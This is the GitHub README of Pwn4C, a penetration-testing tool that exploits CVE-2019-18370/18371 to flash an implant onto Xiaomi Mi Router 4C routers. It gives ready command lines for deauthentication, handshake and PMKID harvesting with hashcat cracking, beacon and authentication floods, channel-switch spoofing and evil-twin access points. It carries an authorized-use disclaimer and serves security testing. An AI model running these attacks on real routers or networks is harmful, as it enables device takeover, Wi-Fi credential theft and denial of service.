

# Pwn4C

[](https://github.com/3lyly0/Pwn4C/actions/workflows/cli.yml)
[](https://github.com/3lyly0/Pwn4C/actions/workflows/daemon.yml)
[](https://github.com/3lyly0/Pwn4C/actions/workflows/firmware.yml)
[](https://github.com/3lyly0/Pwn4C/actions/workflows/release.yml)



Pwn4C converts a stock Xiaomi Mi Router 4C (MediaTek MT7628N, ~$15 USD) into a headless Wi-Fi penetration testing implant. It exploits CVE-2019-18370/18371 to silently deploy a custom OpenWrt firmware (<4MB) over the LAN in under 90 seconds, turning the router into a remote RF drone controlled from a host PC over Ethernet.

<br clear="left"/>

---

## Features

- **Zero-Touch Air-Gapped Deployment (`pwn4c infect`)**: Exploits stock firmware Web API authentication & command injection to directly flash custom OpenWrt firmware (`--flash`) over LAN with zero internet, serial, or TFTP intervention. The uploaded payload is only XML + script (a few KB); the router pulls the sysupgrade image from the host and writes it to OS1. No BusyBox, dropbear, or telnet/SSH shell is required for the primary path.
- **Dual-Port Architecture & HMAC-SHA256 Security**: Dedicated TCP control channel (port 4444) with optional pre-shared key (`--psk`) challenge-response authentication carries structured JSON telemetry and commands; high-throughput UDP channel (port 5555) streams raw 802.11 frames (RadioTap/PCAP) with 48-bit monotonic timestamps and indexed fragment reassembly.
- **Zero-Conf Autodiscovery (`pwn4c discover`)**: Drone implants respond to discovery beacons over UDP 4440; host CLI automatically detects all reachable drones on the subnet without manual IP configuration.
- **Autonomous Daemon-Side Channel Hopping (`pwn4c hop` / `pwn4c monitor --hop`)**: Sweeps across 2.4 GHz channels (1–13) directly inside the C daemon's `select()` timer loop using native `nl80211` Generic Netlink (`<2ms` switch latency) with zero TCP polling overhead.
- **Kernel Classic BPF Frame Filtering (`--mgmt-only`, `--filter-bssid`)**: Attaches classic BPF bytecode (`SO_ATTACH_FILTER`) to the `AF_PACKET` socket in kernel space, filtering Management frames or target BSSIDs across Addr1/Addr2/Addr3 (preserving Data and WPA/EAPOL handshakes).
- **Live Wireshark Pipe Streaming (`pwn4c monitor -o -`)**: Streams standard `DLT_IEEE802_11_RADIO` PCAP records directly to `stdout` for real-time inspection in Wireshark (`pwn4c monitor -c 6 -o - | wireshark -k -i -`).
- **Active 802.11 Frame Injection & Deauth (`pwn4c deauth`)**: Enqueues raw 802.11 management frames into a 256-slot non-blocking TX ring buffer with configurable inter-frame pacing (`--interval`), full RadioTap TX metadata (rate/channel), and `--reverse` / `--disassoc` variants. Every burst reports requested / queued / sent / failed / pending frames, so a shortfall is never hidden.
- **Handshake & PMKID Harvesting (`pwn4c harvest`)**: The drone decodes EAPOL-Key frames as they arrive, tracks the 4-way handshake per `(BSSID, STA)` pair and lifts the RSN PMKID from M1 when the AP advertises one. As soon as a crackable unit exists the CLI stops and writes a ready **hashcat mode-22000** line — no PCAP post-mortem and no external `hcxtools` step. Both `WPA*01*` (PMKID, clientless) and `WPA*02*` (M1+M2 / M1+M4 / M3+M2 / M3+M4) forms are produced, and `--deauth` can kick a client to force a fresh handshake.
- **Channel Switch Announcements (`pwn4c csa`)**: Spoofs the AP's own beacon (or an 802.11 Spectrum Management action frame) with a CSA element so associated clients move to a channel you choose. Each frame carries an incrementing sequence number and a real countdown, so clients do not drop the copies as duplicates. This is the herd step that makes an evil twin possible, and a quick way to prove a network is (or is not) CSA-hardened. `--follow` leaves the radio watching the new channel.
- **Station Inventory (`pwn4c clients`)**: The daemon decodes every captured frame into a station observation — probe requests (the station's PNL entry), auth/association requests, ToDS/FromDS data, and deauth/disassoc — and keeps a bounded 32-slot table with the BSSID, last RSSI, probed SSID, frame count and age. The host prints it as a table or `--json`, filters by BSSID/association/RSSI, and can `--watch` it. The table survives `STOP_MONITOR`, so stopping the radio does not lose what was seen. This is the targeting step before a kick, a CSA herd, or an evil twin.
- **Frame Floods (`pwn4c beacon-flood`, `pwn4c auth-flood`)**: `beacon-flood` injects a stream of beacons with fresh locally administered BSSIDs and plausible SSIDs (built-in router-name list, a wordlist, a fixed name, or hidden) to bury the real networks in a client's scan list. `auth-flood` hammers one BSSID with Open System authentication requests from random source MACs, exhausting the AP's client state table — the classic authentication flood, and a deliberate denial-of-service test. Both are pure host-side frame builders (`internal/drone/flood.go`) over the existing `SEND_INJECTION` path, with `--count`/`--duration`/`--interval` pacing and a live frames-per-second line.
- **Evil Twin (`pwn4c eviltwin`)**: The daemon brings up a rogue AP on a dedicated `__ap` virtual interface (`pwn4c-ap`) on the same radio as the monitor — hostapd from a generated `/tmp` config, plus a second dnsmasq serving `192.168.66.0/24` on that interface only, so the capture keeps running on the shared channel. The twin copies the real network's SSID, BSSID and channel; `--kick` sends a broadcast deauth from the real BSSID so associated clients drop, rescan and join the twin. A WPA2-PSK twin (8-63 char passphrase, written into the config only as a derived 64-hex PSK) yields crackable 4-way handshakes that the command writes as hashcat mode-22000 lines — the same output `harvest` produces. An open twin (`--passphrase` omitted) serves captive-portal style testing only.
- **Hardware-Level RF Control & Self-Healing (`pwn4c config`, `pwn4c status`)**: Direct `nl80211` and POSIX `ioctl` control over transmission power (1–20 dBm) and dynamic MAC spoofing/randomization; changes are read back from the driver and persisted to UCI, so the CLI reports what the hardware actually applied. Automatic interface recovery on `ENETDOWN`/`ENODEV`, runtime netdev detection (`phy0-ap0` on OpenWrt 23.05, `wlan0` on older images), and full drop telemetry (`rx_frames`, `inject_frames`, `ring_overruns`, `kernel_drops`, `iface_recoveries`).
- **Wi-Fi Survey & Station Mode (`pwn4c networks`, `pwn4c connect`)**: The drone sweeps the 2.4 GHz band from monitor mode and reports every AP — hidden networks included, with their advertised SSID length — then can join an upstream network as a station (hidden SSIDs supported) without ever touching the stock AP profile. By default it also NATs `192.168.4.0/24` behind that link, so a host plugged into a LAN port gets internet through the drone's Wi-Fi.
- **Verified OTA Firmware Updates (`pwn4c upgrade`)**: Push a sysupgrade image from the host over the control channel; the drone verifies size and SHA-256 before flashing and comes back online on the new firmware.
- **Interactive Shell (`pwn4c shell`)**: One persistent control session with a numbered menu — survey, select, join, listen, deauth-then-capture, and handshake harvest — instead of chains of separate commands and reconnects.

---

## CLI Reference

| Command | Syntax / Example | Description |
|---|---|---|
| `infect` | `pwn4c infect 192.168.31.1 -f sysupgrade.bin` | Exploits stock Xiaomi firmware and directly flashes Pwn4C OS (air-gapped) |
| `discover` | `pwn4c discover [-t 3] [--wait-timeout 0]` | Scans subnet for active Pwn4C drone implants via UDP broadcast (keeps retrying by default) |
| `status` | `pwn4c status [target_ip] [--psk secret]` | Queries live telemetry, drop counters, and radio state over TCP |
| `monitor` | `pwn4c monitor [target_ip] -c 6 -o capture.pcap [--hop] [--seconds 60] [--persist]` | Starts 802.11 monitor mode, optional BPF filter/hopper, and streams PCAP |
| `hop` | `pwn4c hop [target_ip] -d 250 -c 1,6,11` | Starts autonomous drone-side channel hopping across specified channels |
| `deauth` | `pwn4c deauth [target_ip] -b <bssid> [-c <client>] [--rate 5.5] [--reverse] [--disassoc] [--monitor -o hs.pcap]` | Injects raw IEEE 802.11 deauth/disassoc frames; `--monitor` captures the handshake in the same session |
| `harvest` | `pwn4c harvest [target_ip] -b <bssid> -c 6 --timeout 180 -o hs.hc22000 [--deauth] [--all]` | Captures a 4-way handshake or PMKID and writes hashcat mode-22000 output |
| `csa` | `pwn4c csa [target_ip] -b <bssid> -s <ssid> -c 6 --to 11 -n 10 [--mode action --client <mac>] [--follow]` | Spoofs Channel Switch Announcements to herd clients onto another channel (evil-twin setup, CSA hardening check) |
| `clients` | `pwn4c clients [target_ip] -c 6 -s 20 [--bssid <mac>] [--assoc-only] [--min-rssi -70] [--json] [--watch]` | Inventories the stations around the drone: associated clients, their BSSID/RSSI, and the SSIDs they probe for (PNL) |
| `beacon-flood` | `pwn4c beacon-flood [target_ip] -c 6 -n 2000 [--ssid <name> \| --ssid-file names.txt] [--hidden] [--duration 60]` | Floods the air with fake beacons (random BSSID and SSID) to fill client scan lists |
| `auth-flood` | `pwn4c auth-flood [target_ip] -b <bssid> -c 6 -n 500 [--src <mac>] [--duration 30]` | Floods an AP with Open System authentication requests from random clients (denial-of-service test) |
| `eviltwin` | `pwn4c eviltwin [target_ip] -b <bssid> -s <ssid> -c 6 [--passphrase <psk>] [--hidden] [--kick] [--duration 300] -o eviltwin.hc22000` | Runs a rogue AP that copies a real network and writes hashcat 22000 output for the clients it catches |
| `config` | `pwn4c config [target_ip] --power 20 --mac` | Adjusts TX power, randomizes/spoofs MAC, or restores normal mode |
| `networks` | `pwn4c networks [-d 4000] [--wps] [--json]` | Surveys nearby APs from the monitor radio (hidden SSIDs shown with their length, WPS flags reported) |
| `connect` | `pwn4c connect <ssid> [-p pass] [--mac <addr>] [--random-mac] [--retry 2] [--no-share]` | Joins the drone to an upstream Wi-Fi network and NATs its LAN behind the link (station mode, hidden SSIDs OK) |
| `wifi-status` | `pwn4c wifi-status` | Shows the drone's upstream station link (SSID/BSSID/channel/IP) |
| `wifi-disconnect` | `pwn4c wifi-disconnect` | Leaves the upstream network; radio returns to the idle state |
| `upgrade` | `pwn4c upgrade --image sysupgrade.bin` | Verified OTA firmware update (SHA-256 checked, waits for the reboot) |
| `reboot` | `pwn4c reboot [-y] [--no-wait]` | Reboots the drone and waits for it to re-announce |
| `shell` | `pwn4c shell` | Interactive single-session menu for all of the above |

---

## Quick Start

### 1. Build the Host CLI

```bash
git clone https://github.com/3lyly0/Pwn4C.git
cd Pwn4C
go build -ldflags="-s -w" -o pwn4c ./cmd/pwn4c
sudo cp pwn4c /usr/local/bin/   # On Linux/macOS
```

*(Pre-compiled binaries for Linux, macOS, and Windows are also available in [Releases](https://github.com/3lyly0/Pwn4C/releases).)*

### 2. Infect Stock Router

Connect your host PC to the router's LAN port:

```bash
pwn4c infect 192.168.31.1 --flash firmware/output/pwn4c-firmware-mi4c-sysupgrade.bin
```

This is the primary deployment path. The router needs no internet access: the
uploaded payload is only `speedtest_urls.xml` + `script.sh`, and the injected
script pulls the sysupgrade image from a temporary host TCP server, runs
`mtd -r write /tmp/pwn4c.bin OS1`, and reboots into Pwn4C OS on
`192.168.4.1`.

On Windows, allow `pwn4c.exe` inbound TCP on the **Private** network when the
firewall prompt appears (or allow the random firmware port printed by the CLI).
After the flash transfer completes, wait 60–90 seconds, reconnect to
`192.168.4.0/24` (DHCP or static), and run `pwn4c discover`.

Running `pwn4c infect 192.168.31.1` without `--flash` is only a secondary
stock-firmware debug path; it does not deploy the implant. See
[installation.md](docs/installation.md#a2-run-the-infect-command) for details.

### 3. Discover Active Drone

Once the custom firmware is booted, discover the implant on the link:

```bash
pwn4c discover
```

### 4. Monitor, Filter & Pipe Live Traffic to Wireshark

```bash
# Save channel 6 capture to file with BSSID kernel BPF filter
pwn4c monitor -c 6 --filter-bssid AA:BB:CC:DD:EE:FF -o capture.pcap

# Sweep channels 1, 6, 11 autonomously and pipe live to Wireshark
pwn4c monitor --hop --channels 1,6,11 --dwell 250 -o - | wireshark -k -i -
```

### 5. RF Attacks & Hardware Configuration

```bash
# Deauth one client and capture the reconnection handshake in one session
pwn4c deauth -b AA:BB:CC:DD:EE:FF -c 12:22:33:44:55:66 -i 6 --monitor --filter-bssid AA:BB:CC:DD:EE:FF -o handshake.pcap

# Inject 20 deauth frames against target AP client with 10ms pacing
pwn4c deauth -b AA:BB:CC:DD:EE:FF -c 12:22:33:44:55:66 -i 6 -n 20 --interval 10

# Harvest a crackable handshake (or PMKID) and write a hashcat 22000 file.
# Without --deauth the command simply listens; with it, clients are kicked so
# they re-handshake immediately. It exits as soon as one unit is ready.
pwn4c harvest -b AA:BB:CC:DD:EE:FF -c 6 --timeout 180 -o hs.hc22000 --deauth
hashcat -m 22000 -a 0 hs.hc22000 wordlist.txt

# Maximize TX power and randomize drone MAC (bare --mac = random)
pwn4c config --power 20 --mac

# Twin a network you own: the drone runs hostapd on a dedicated virtual AP
# (192.168.66.0/24) while the monitor keeps capturing on the same channel.
# --kick drops its clients so they rescan and find the twin; every WPA2
# handshake the twin catches is written as a hashcat 22000 line.
pwn4c eviltwin -b AA:BB:CC:DD:EE:FF -s "Home WiFi" -c 6 --passphrase '12345678' --kick --duration 300 -o eviltwin.hc22000
hashcat -m 22000 -a 0 eviltwin.hc22000 wordlist.txt
```

### 6. Wi-Fi Management (survey, join, update)

```bash
# See what's around the drone — hidden networks show their advertised SSID length
pwn4c networks

# Join the drone to an upstream network (or add a hidden one by name).
# The drone NATs its LAN behind that link, so a host on a LAN port gets
# internet through the drone's Wi-Fi. Use --no-share to keep the LAN isolated.
pwn4c connect "MyNetwork" -p 's3cret-pass'
pwn4c wifi-status

# Update the drone firmware over the air and wait for it to come back
pwn4c upgrade --image pwn4c-firmware-mi4c-sysupgrade.bin
```

### 7. One Session, One Menu

```bash
pwn4c shell
#   2) networks   -> survey
#   3) use 1      -> pick a target network
#   8) deauth     -> burst + capture (asks for the client MAC)
#   9) harvest    -> capture a crackable handshake/PMKID, write hashcat 22000
#  12) eviltwin   -> twin the selected network, harvest the clients it catches
#   q) quit
```

---

## Documentation

- [Architecture](docs/architecture.md): System diagram, Drone/Host roles, transport spec, infection lifecycle.
- [Hardware Reference](docs/hardware.md): MT7628N specs, flash layout, RF constraints, storage budget.
- [Installation Guide](docs/installation.md): Automated (Path A) and manual (Path B) deployment instructions.
- [API Reference](docs/api_reference.md): Wire protocol, TCP JSON commands, UDP stream format, error codes.
- [Troubleshooting](docs/troubleshooting.md): Discovery failures, exploit issues, dropped frames, firmware recovery.

---

## Repository Structure

```
Pwn4C/
├── .github/workflows/  # Modular CI/CD pipelines (CLI, Daemon, Firmware, Release)
├── cmd/pwn4c/          # Host Controller (Go CLI): C2, autodiscovery, exploit deployer
├── daemon/             # pwn4cd (C99): embedded daemon for Drone (mipsel_24kc, musl, static)
├── firmware/           # OpenWrt ImageBuilder scripts, Dockerized build, rootfs config
├── internal/
│   ├── drone/          # C2 TCP client, UDP PCAP receiver, 802.11 frame builders
│   └── exploit/        # CVE-2019-18370/18371 air-gapped exploit & flash engine
├── docs/               # Architecture, API wire specs, and hardware documentation
└── LICENSE             # Dual-license specification
```

---

## Disclaimer

This software is provided strictly for **educational purposes** and **authorized security auditing**. Unauthorized access to computer networks is illegal under the Computer Fraud and Abuse Act (18 U.S.C. 1030), the Computer Misuse Act 1990, and equivalent legislation in most jurisdictions. You are solely responsible for ensuring you have explicit, written authorization before using this tool against any network or device. The authors assume no liability for misuse.

---

## License

This project uses a dual-license model:

| Component | License |
|-----------|---------|
| Firmware and Daemon (`daemon/`, `firmware/`) | [GNU General Public License v3.0](LICENSE) |
| Host Client (`cmd/pwn4c/`, `internal/`) | MIT License |
